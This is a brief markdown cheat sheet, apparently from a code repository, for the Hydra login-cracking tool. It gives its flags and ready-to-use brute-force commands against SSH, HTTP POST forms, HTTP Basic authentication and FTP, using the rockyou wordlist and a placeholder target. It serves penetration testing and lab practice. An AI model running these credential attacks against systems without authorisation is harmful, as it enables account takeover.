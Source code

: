 ```yaml
---
title: HYDRA
---
```


## HYDRA Base


 > 
 > **<font color=red>hydra -l </font>username <font color=red>-P</font> wordlist.txt \[TARGET_IP\] service**

## HYDRA Flags


 > 
 > **<font color=red>-V</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-vV</font>**</br>
 > Very Verbose.

 > 
 > **<font color=red>-L</font> myUsersFile**</br>
 > Specify usernames file list.
 > 
 > **<font color=red>-l </font> myUser**</br>
 > Specify username.

 > 
 > **<font color=red>-P </font>myPassFile**</br>
 > Specify password file list.
 > 
 > **<font color=red>-p</font> myPass**</br>
 > Specify password.

 > 
 > **<font color=red>-t</font> 4**</br>
 > Number of parallel connections per target.

## SSH


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red>ssh</font>**</br>
 > Brute Force SSH.

## HTTP POST


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

## HTTP Basic Access Auth


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red>http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

## FTP


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.
